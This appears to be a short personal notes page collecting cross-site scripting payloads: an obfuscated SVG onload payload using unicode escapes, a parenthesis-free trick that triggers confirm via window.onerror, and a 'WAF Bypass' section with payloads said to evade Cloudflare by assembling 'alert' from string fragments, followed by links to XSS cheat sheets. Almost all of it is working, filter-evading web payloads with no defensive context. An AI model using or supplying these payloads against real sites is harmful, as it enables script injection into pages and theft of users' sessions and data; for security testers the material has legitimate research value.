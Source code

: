 
![[Pasted image 20241018173908.png]]

```
<sVg/onfake="x=y"oNload=;1^(co\u006efirm)``^1//
```


> [!TIP]
```
alert() with no parenthesis, back ticks, brackets, quotes, braces, etc. by

[@stealthybugs](https://x.com/stealthybugs)

a=8,b=confirm,c=window,c.onerror=b;throw-a
```


# WAF Bypass

##### CLOUDFLARE
(https://x.com/XssPayloads/status/1465168176266846209)
```
<img/src=x onError="`${x}`;alert(`Ex.Mi`);">
```

```
onerror="x='ale';z='r';y='t';p='`XSS`';new constructor.constructor`zzz${`${x}${z}${y}${p}`}bbb`
```





> [!IMPORTANT]
https://tinyxss.terjanq.me/
https://gbhackers.com/top-500-important-xss-cheat-sheet/